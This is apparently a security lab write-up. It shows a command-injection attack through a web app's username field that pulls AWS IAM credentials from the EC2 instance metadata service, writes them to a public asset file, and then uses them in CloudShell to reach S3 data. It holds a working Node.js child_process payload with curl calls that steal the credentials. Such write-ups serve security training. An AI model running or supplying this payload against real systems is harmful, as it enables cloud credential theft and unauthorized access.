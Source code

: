To run command injection, I entered a specially crafted input into the username field that included system commands instead of a regular username. The script will execute this command instead of treating it as text, allowing unauthorized actions such as extracting sensitive data or gaining further control over the system.

The actual JSON command used for this injection is:

```json
#{global.process.mainModule.require('child_process').exec(
    'CREDURL=http://169.254.169.254/latest/meta-data/iam/security-credentials/;
    TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` &&
    CRED=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL | echo $CREDURL$(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN") &&
    echo $CRED | json_pp > frontend/dist/frontend/assets/public/credentials.json'
)}

```

This command injection exploits the server-side execution of user input, allowing an attacker to retrieve AWS IA

![Image](https://imgur.com/Bhqp7w6.png)

---

## Attack Verification

To verify the attack's success, I checked the credentials page where the stolen AWS IAM credentials were stored. The credentials page showed me the extracted security credentials, including access keys and session tokens, confirming that the command injection successfully retrieved and saved them from the EC2 instance metadata API. This verification step ensures that the attack worked as intended and demonstrates the severity of insecure input handling in web applications.

![Image](https://imgur.com/AaTM8O4.png)

---

## Using CloudShell for Advanced Attacks

The attack continues in CloudShell because it provides a direct command-line interface within the AWS Management Console, allowing me to execute commands efficiently. By using CloudShell, I can configure the AWS CLI with the stolen credentials and interact with AWS services, such as listing and retrieving sensitive data from an S3 bucket. This demonstrates how attackers exploit compromised credentials to move laterally within an AWS environment and gain unauthorized access to critical resources.

In CloudShell, I used `wget` to download data from an external or internal source, such as retrieving credentials or sensitive files from an S3 bucket. 

Next, I ran a command using `cat` and `jq` to read and format the extracted data. `cat` was used to display the content of the retrieved file, while `jq` was used to parse and format JSON data, making it easier to analyze and extract specific details like access keys or secrets. These commands helped automate the process of extracting and organizing sensitive information from the compromised AWS environment.
